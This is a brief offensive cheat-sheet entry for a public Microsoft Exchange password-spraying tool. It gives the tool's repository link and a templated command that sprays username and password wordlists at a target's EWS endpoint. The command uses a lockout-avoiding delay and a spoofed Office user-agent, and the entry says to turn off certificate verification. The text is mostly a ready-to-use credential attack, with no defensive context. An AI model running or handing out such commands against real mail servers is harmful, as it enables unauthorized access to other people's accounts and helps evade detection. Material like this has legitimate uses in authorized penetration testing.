 # exchange_password_spray
% exchange
#plateform/linux  #target/remote  #protocol/exchange #cat/ATTACK/BRUTEFORCE-SPRAY 


## _url
```
https://github.com/iomoath/PyExchangePasswordSpray/tree/master
```

## _desc
```
Microsoft Exchange password spraying tool with proxy capabilities
```

## _links
```
https://github.com/iomoath/PyExchangePasswordSpray/tree/master
```

## bruteforce (EWS)
user format <domain_netbios>\<user>
edit script to set verify=False
```bash
python3 exchange_password_spray.py  -U <user_wl> -P <password_wl>  --url https://<fqdn>/ews --delay 62 -T 1 -ua "Microsoft Office/16.0 (Windows NT 10.0; MAPI 16.0.9001; Pro)" -O result.txt -v
```
